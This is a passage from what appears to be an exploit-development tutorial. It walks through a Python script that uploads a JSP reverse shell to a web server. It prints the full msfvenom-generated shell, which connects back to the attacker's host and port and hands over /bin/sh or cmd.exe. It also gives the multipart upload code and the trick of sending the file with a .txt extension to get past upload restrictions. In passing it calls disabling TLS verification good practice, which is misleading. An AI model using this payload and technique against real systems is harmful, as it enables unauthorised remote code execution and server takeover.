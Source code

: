 This function takes 3 arguments, the target URL, your listener's IP and port. There are a few things within this function that are important to understand.
The first is a string that contains a java reverse shell code (generated with msfvenom):
```py
shell_content = '<%@page import="java.lang.*"%> <%@page import="java.util.*"%> <%@page import="java.io.*"%> <%@page import="java.net.*"%> <% class StreamConnector extends Thread { InputStream p1; OutputStream tR; StreamConnector( InputStream p1, OutputStream tR ) { this.p1 = p1; this.tR = tR; } public void run() { BufferedReader wA = null; BufferedWriter nfR = null; try { wA = new BufferedReader( new InputStreamReader( this.p1 ) ); nfR = new BufferedWriter( new OutputStreamWriter( this.tR ) ); char buffer[] = new char[8192]; int length; while( ( length = wA.read( buffer, 0, buffer.length ) ) > 0 ) { nfR.write( buffer, 0, length ); nfR.flush(); } } catch( Exception e ){} try { if( wA != null ) wA.close(); if( nfR != null ) nfR.close(); } catch( Exception e ){} } } try { String ShellPath; if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) { ShellPath = new String("/bin/sh"); } else { ShellPath = new String("cmd.exe"); } Socket socket = new Socket( "'+lhost+'", '+lport+' ); Process process = Runtime.getRuntime().exec( ShellPath ); ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start(); ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start(); } catch( Exception e ) {} %>'
```

As you can see in the code, I have concatenated lhost & lport in the string so that users won't have to manually change the contents of the shell every time.

In almost all of my exploits I use python's `requests` module to send requests and in this exploit, we need to send a `POST` request and it's format is something like this:
```py
upload = requests.post(url=url, files=file, verify=False, timeout=30)
```

It takes 3 arguments, `verify` is not always necessary but it is a good practice to include it so that we don't have to verify the security of some websites, this helps because most websites use insecure or mis-configured connections.

The most important parts are `url` and `files`, the `files` parameter or argument takes a dictionary, in our exploit we need to specify:
* the key to pass our files into
* the name of the file
* the contents of the file
* content type
* disposition type

Here is how it looks like in code:
```py
file = {"newfile": (f'{shell_name}.txt', shell_content, 'application/x-java-archive', {'Content-Disposition': 'form-data'})}
```

As you can see the `key` to pass our files into is `newfile`, many times it's either `newfile` or `file` or `upload`, it isn't something you can guess, as you go through this long exploit development journey you will understand how we know what type of `key` we should pass.

Next you have to specify the shell name which is a random text string concatenated with `.txt` extension. then comes another variable named `shell_content` which basically contains that reverse shell code. Using `.txt` extension allows us to just bypass file upload restrictions but later we upload our shell with `.jsp` extension.

Next we have to specify the type of contents being sent which is a java archive and our data is sent in form of a `form-data`.
